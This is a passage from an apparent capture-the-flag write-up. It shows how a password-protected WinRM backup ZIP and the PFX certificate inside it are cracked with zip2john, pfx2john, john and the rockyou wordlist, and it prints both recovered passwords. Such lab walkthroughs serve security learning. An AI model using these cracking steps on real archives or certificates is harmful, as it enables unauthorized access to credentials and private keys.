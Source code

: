 The most valuable file could be winrm_backup.zip due to its name. The ZIP has a password, but listing its content, we can see a [PFX file](https://www.sslmarket.com/ssl/how-to-create-an-pfx-file#:~:text=A%20PFX%20file%20indicates%20a,need%20to%20deploy%20a%20certificate.) which probably contains an SSL certificate and its private key in PKCS#12 format. This can be used by the company for authentication into a machine or maybe we can execute a pass-the-certificate attack(?)


```bash
unzip winrm_backup.zip   
  Archive:  winrm_backup.zip
  [winrm_backup.zip] legacyy_dev_auth.pfx password: 
```

Since it is protected, let's try to crack its password with john and rockyou.txt dictionary.

```bash
zip2john winrm_backup.zip > win.hash
john win.hash --wordlist=/usr/share/wordlists/rockyou.txt 

  Using default input encoding: UTF-8
  Loaded 1 password hash (PKZIP [32/64])
  Will run 4 OpenMP threads
  Press 'q' or Ctrl-C to abort, almost any other key for status
  supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
  1g 0:00:00:00 DONE (2022-05-23 03:25) 2.777g/s 9648Kp/s 9648Kc/s 9648KC/s surkerior..superkebab
  Use the "--show" option to display all of the cracked passwords reliably
  Session completed.
```

We got the password **supremelegacy** for the ZIP file. Now unzip the file and check the information about its certificate:

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -info                                       
  Enter Import Password:
  MAC: sha1, Iteration 2000
  MAC length: 20, salt length: 20
  Mac verify error: invalid password?
```

When trying to retrieve the information it ask us for a password, I reused the **supremelegacy** one and also tried with no password, but there was no luck so I tried to crack it again with our favourite  dictionary:


```bash
pfx2john legacyy_dev_auth.pfx > lega.hash
john lega.hash --wordlist=/usr/share/wordlists/rockyou.txt 

  Using default input encoding: UTF-8
  Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 AVX 4x])
  Cost 1 (iteration count) is 2000 for all loaded hashes
  Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
  Will run 4 OpenMP threads
  Press 'q' or Ctrl-C to abort, almost any other key for status
  thuglegacy       (legacyy_dev_auth.pfx)     
  1g 0:00:01:48 DONE (2022-05-23 03:37) 0.009187g/s 29687p/s 29687c/s 29687C/s thuglife06..thug211
  Use the "--show" option to display all of the cracked passwords reliably
  Session completed.
```
